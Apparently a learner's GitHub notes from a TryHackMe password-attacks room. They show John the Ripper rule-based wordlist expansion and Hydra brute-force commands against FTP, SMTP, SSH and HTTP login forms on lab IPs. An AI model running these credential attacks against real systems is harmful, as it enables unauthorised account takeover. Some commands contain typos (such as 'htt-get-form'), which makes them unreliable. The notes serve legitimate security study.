 ***#EXPANDING PASSWORD LIST WITH A RULE BASED ATTACK:***
- If you were getting frustrated trying to mirror the "Rule-based" attack using the best64 rule, the world list of "single-password-list.txt," does not exist on the attack box or a list when you download john. The "single-password-list.txt" is a list that they created. So, what you want to do to be able to use the command: ```john --wordlist=/tmp/single-password-list.txt --rules=best64 --stdout | wc -l``` is create a file with the string: ```"tryhackme."``` *If you're following THM.
   
  1. You can create your file anywhere, I chose to move into the tmp folder. 
  2. ```nano best64rule.txt```
  3. Input the string: ```tryhackme```
  4. ls (to confirm it's in the folder)
  5. Run the command: ```john --wordlist=tmp/best64rule.txt --rules=best64 --stdout |wc -l```
     - THM says they got 76 passwords, I got 75, potatoe potatoe. 

***#JOHN THE RIPPER RULES IN KALI:***
![johntheripper list rules](https://github.com/ryangreggw/THM-BOXES/assets/25268281/e5fc413e-e148-45c0-a9fd-5ae044aeb927)


***#RULE64:***

![rule based attack](https://github.com/ryangreggw/THM-BOXES/assets/25268281/d8b0b029-a18f-4b00-9012-3f3cf06ce596)


***#QUESTION:*** 
- I'm not sure why the syntax works this way... You'd think you'd follow the rule logically. If somebody more experienced could let me know why I'd appreciate it. THM tells you to translate "S[Word]NN into a command where: 
  - N=number
  - S= a symbol of !@
    - To me, this translates as ^[!@] Az"[0-9][0-9]" but that's not the answer. They have the symbols coming last although if S represents the symbols, I don't know why it doesn't go first. 
      - A single work from the orginal wordlist you're using is represented by: ```Az```
      - To produce two digits we use: ```[0-9][0-9]```
      - The caret indicates that you want to use symbols, and the symbols used are in the brackets: ```^[!@]```
  
## **#TASK 8: ONLINE PASSWORD ATTACKS**
#BRUTE-FORCE FTP(21) WITH HYDRA
- Command: 
  - ```hydra -l ftp -P passlist.txt ftp://10.10.x.x```
    - For a single username: ```-l ftp```
    - For a username wordlist: ```-L ftp```
    - For wordlist path: ```-P path```
    - To specify a single password: ```-p ```

***#BRUTE-FORCE SMTP(25/587/465) WITH HYDRA:***
- COMMAND: 
  - ```hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x```

***#BRUTE-FORCE SSH (22):***
- COMMAND: 
  - ```hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x```

***#BRUTE-FORCE HTTP LOGIN PAGES:***
  - GET or POST?
  - Hydra options command: 
    - ```hydra http-get-form -u```
  - Hydra get command syntax: 
    - ```<url>:<form parameters>:<condition string>[:<optional>[:<optional>]]```
      - You could just use the repeater in burpsuite. 
  - Hydra Get Command example: 
    - ```hydra -l admin -P 500-worst-passwords.txt 10.10.x.x htt-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f```.
      - Specify a single username: ```-l admin```. 
      - Pathway for wordlist: ```-P Path```. 
      - Target IP address of Full qualified domain name (FQDN): ```10.10.x.x```
